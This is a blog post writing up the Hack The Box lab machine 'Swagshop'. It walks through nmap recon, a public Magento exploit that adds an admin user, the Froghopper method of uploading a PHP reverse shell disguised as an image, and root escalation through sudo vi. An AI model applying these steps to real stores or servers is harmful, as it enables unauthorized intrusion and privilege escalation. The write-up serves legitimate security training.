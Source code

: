 ```yaml
---
layout: post
title:  "HTB Writeup - Swagshop"
date:   2019-10-06 12:59:50 +0000
categories: jekyll update
---
```


# HTB Swagshop - writeup

As always, let's start with ```nmap``` to scan for open ports and services:
```
root@kali:~/# nmap -sV -sT -sC -o nmapinitial swagshop.htb 
Starting Nmap 7.70 ( https://nmap.org ) at 2019-09-27 15:27 EET
Nmap scan report for swagshop.htb (10.10.10.140)
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://10.10.10.140/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
The interesting stuff here is port 80, since I do not consider ssh as "low-hanging fruit".

http://swagshop.htb/ :
<img src="/assets/swag1.PNG" alt="drawing" width="600"/>
As we can see, there is a web application called Magento, which is a well suited CMS for building e-commerce.

At the bottom of the page, we can see that the version is from 2014. Searching for exploit, I found this[https://www.exploit-db.com/exploits/37977], which creates a new admin user. It worked, a slight edit had to be done though, since all paths are after /index.php. 
```
root@kali:~/Desktop/HTB/boxes/swagshop# python 37977.py 
WORKED
Check http://swagshop.htb/index.php/admin with creds forme:forme
```
To continue the compromission of the machine, I exploited a RCE using The Froghopper Attack method[https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper]. 

Basically you have to:
1. Allow symlinks in template settings
2. Place a php reverse shell to a an image
3. Upload it as a category thumbnail
4. Check /media/catalog/category/shell.php.png
5. Create a Newsletter Templates with the shell and execute it

For the root flag, first thing I did was to get a tty shell with:
```
$ python3 -c "import pty;pty.spawn('/bin/bash')"
```

I ran the usual recon linux script, and I found that www-data can run vi as root on any file in /var/www/html/ :
``` 
www-data@swagshop:/var/www/html$ sudo -l 
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
www-data@swagshop:/var/www/html$ 
```

So I opened a file in vi as root, then I executed /bin/bas from vi:
```
:!/bin/bash
```

and owned the root flag!
